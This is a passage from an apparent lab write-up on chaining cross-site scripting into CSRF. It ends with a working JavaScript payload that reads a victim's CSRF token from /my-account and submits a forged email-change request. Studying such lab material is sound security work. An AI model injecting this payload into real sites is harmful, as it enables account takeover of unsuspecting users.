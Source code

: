 
And the email of my user changes to test7@test.com:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/7.png)


It is not working because we are using a hardcoded value for the CSRF token. We can take the value from the hidden value “csrf” of the page:



![img](images/Exploiting%20XSS%20to%20perform%20CSRF/8.png)


The csrf element uses the name so we can grab the content with:

```
document.getElementsByName('csrf')[0].value
```

However, if we do this we can not create a form with a csrf tag like we did before. But we can grab the CSRF token from "/my-account" and use a regular expression to get the content and set the value of the csrf element in the created form, and the submit the form:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var csrf_token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
  console.log(csrf_token);
  var xhr = new XMLHttpRequest();
  xhr.open("POST", '/my-account/change-email', true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.onreadystatechange = () => { 
    if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
    }
  }
  xhr.send("email=test12@test.com&csrf="+csrf_token);
};
```